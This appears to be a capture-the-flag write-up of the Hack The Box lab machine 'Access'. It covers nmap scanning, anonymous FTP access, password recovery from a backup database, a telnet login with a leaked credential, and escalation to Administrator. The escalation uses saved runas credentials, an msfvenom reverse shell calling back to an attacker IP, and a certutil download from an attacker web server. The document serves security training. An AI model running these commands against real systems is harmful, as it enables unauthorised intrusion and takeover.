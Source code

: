 
# HTB - Access

#### Ip: 10.10.10.98
#### Name: Access
#### Rating: Easy

----------------------------------------------------------------------

![Access.png](../assets/access_assets/Access.png)

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up:

```text
┌──(ryan㉿kali)-[~/HTB/Access]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.98
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-12 14:13 CDT
Nmap scan report for 10.10.10.98
Host is up (0.068s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE SERVICE
21/tcp open  ftp
23/tcp open  telnet
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.40 seconds
```

Looks like just a few ports open, which is somewhat rare for Windows machines. Lets dig in further and use the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Access]
└─$ sudo nmap -sC -sV -T4 10.10.10.98 -p 21,23,80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-12 14:17 CDT
Nmap scan report for 10.10.10.98
Host is up (0.066s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

Taking a look at the site on port 80, we find just a static page with a picture of a server room.

![site.png](../assets/access_assets/site.png)

Nmap caught that we could access FTP anonymously, so lets try that before digging further into http:

```text
┌──(ryan㉿kali)-[~/HTB/Access]
└─$ ftp 10.10.10.98  
Connected to 10.10.10.98.
220 Microsoft FTP Service
Name (10.10.10.98:ryan): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
425 Cannot open data connection.
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM       <DIR>          Backups
08-24-18  10:00PM       <DIR>          Engineer
226 Transfer complete.
ftp> cd Backups
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM              5652480 backup.mdb
226 Transfer complete.
ftp> get backup.mdb
local: backup.mdb remote: backup.mdb
200 PORT command successful.
125 Data connection already open; Transfer starting.
 18% |**************                                                                  |  1024 KiB    0.99 MiB/s    00:04 ETAftp: Reading from network: Interrupted system call
  0% |                                                                                |    -1        0.00 KiB/s    --:-- ETA
550 The specified network name is no longer available. 
WARNING! 517 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
ftp> cd ..
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM       <DIR>          Backups
08-24-18  10:00PM       <DIR>          Engineer
226 Transfer complete.
ftp> cd Engineer
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-24-18  01:16AM                10870 Access Control.zip
226 Transfer complete.
ftp> get "Access Control.zip"
local: Access Control.zip remote: Access Control.zip
200 PORT command successful.
125 Data connection already open; Transfer starting.
100% |********************************************************************************| 10870       34.39 KiB/s    00:00 ETA
226 Transfer complete.
WARNING! 45 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
10870 bytes received in 00:00 (34.35 KiB/s)
ftp> bye
221 Goodbye.
```

Cool, I was able to grab two files from FTP. Lets checkout backup.mdb first. The .mdb file is a Microsoft DataBase file, I think firstly I'll just try running the `strings` command against it to see if I can find anything juicy that way:

`strings backup.mdb`

![strings.png](../assets/access_assets/strings.png)

So looks like maybe a few usernames/ roles, and maybe passwords? lets add these to a list called strings.txt:

```text
┌──(ryan㉿kali)-[~/HTB/Access]
└─$ cat >> strings.txt                               
jim
administrator
backup_admin
engineer
access4u@security
admin
```

Lets go back and take a look at the Access Control.zip file. Trying to open it up we see it is password protected. 

![ac_passwd.png](../assets/access_assets/ac_passwd.png)

Trying access4u@security found in the other file works and we can access the file.

After unpacking it with `readpst` I can find a note from user John:

```text
Hi there,

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.                                                                                          

Regards,

John
```

Nice, looks like we may have some working credentials `security:4Cc3ssC0ntr0ller`

Because there are so few ports open on this box, looks like we may need to try telnet first:

```text
┌──(ryan㉿kali)-[~/HTB/Access]
└─$ telnet 10.10.10.98
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

login: security
password: 

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>whoami
access\security

C:\Users\security>hostname
ACCESS
```

Cool, we're on the box! Lets grab the user.txt flag:

![user_flag.png](../assets/access_assets/user_flag.png)

### Privilege Escalation

After poking around for awhile and not seeing much, I thought I'd see if there were any passwords cached in memory using `cmdkey /list`:

![cmdkey.png](../assets/access_assets/cmdkey.png)

Nice! We should be able to escalate privileges from here using RunAs.

First, lets go ahead and use msfvenom to create a reverse shell:

```text
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.22 LPORT=443 -a x64 -f exe > shell.exe
```

Next, we'll start a Python HTTP server using `python -m http.server 80` and then use certutil to download our file onto the target:

```text
certutil -urlcache -split -f "http://10.10.14.22/shell.exe" 
```
Once the reverse shell is on the target we can start up a netcat listener `nc -lnvp 443` and run:

```text
runas /savecred /user:ACCESS\Administrator shell.exe
```

If everything has gone to plan we should catch a shell back as access\administrator.

![shell.png](../assets/access_assets/shell.png)

All that's left to do now is grab that root.txt flag:

![root_flag.png](../assets/access_assets/root_flag.png)

Thanks for following along!

-Ryan

--------------------------------------------------------------------------------
